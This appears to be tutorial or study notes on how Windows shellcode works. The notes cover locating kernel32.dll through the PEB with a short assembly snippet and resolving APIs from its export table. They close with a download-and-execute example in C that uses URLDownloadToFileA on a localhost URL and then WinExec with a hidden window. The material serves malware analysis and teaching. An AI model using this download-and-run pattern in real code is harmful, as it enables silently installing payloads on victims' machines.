 Windows shellcodes follow these steps to achieve their target:
1. Get the absolute address (we covered this in the previous section).
2. Get the kernel32.dll's ImageBase.
3. Get the required APIs from kernel32.dll.
4. Execute the payload.

To access any API inside any DLL, the shellcode must get the address of the kernel32.dll and parse its export table.

When an application is being loaded into memory, the Windows OS loads its core libraries, such as kernel32.dll and ntdll.dll, and saves the addresses and other information of these libraries inside the Process Environment Block (PEB).

mov eax,dword ptr fs:[30h]
mov eax,dword ptr [eax+0Ch]
mov ebx,dword ptr [eax+1Ch]
mov ebx,dword ptr [ebx]
mov esi,dword ptr [ebx+8h]

Getting the required APIs from Kernel32.dll

to access the kernel32.dll's APIs, it should parse its export
table. The export table consists of three arrays

AddressOfNames - names of APIs
AddressOfFunctions - relative addresses of APIs

Two arrays have different alignments

To handle this issue, Windows created a third array named AddressOfNameOrdinals.
This array has the same alignment as AddressOfNames and contains the index of every
item in the AddressOfFunctions

To get required APIs
search for the required API's name in AddressOfNames and then take the index of it
search for that index in
AddressOfNameOrdinals to find the equivalent index of this API in
AddressOfFunctions

**The download and execute shellcode**
This shellcode uses an API in urlmon.dll called URLDownloadToFileA.

URLDownloadToFile
( LPUNKNOWN pCaller, LPCTSTR szURL, LPCTSTR szFileName, _Reserved_ DWORD dwReserved, LPBINDSTATUSCALLBACK lpfnCB );

Only szURL and szFilename are required. The remaining arguments are mostly set to NULL. After the file is downloaded, the shellcode executes this file using CreateProcessA,
WinExec, or ShellExecute. 

The C code of it may look like this:
URLDownloadToFileA(0,"https://localhost:4444/calc.exe","calc.exe",0,0);
WinExec("calc.exe",SW_HIDE);




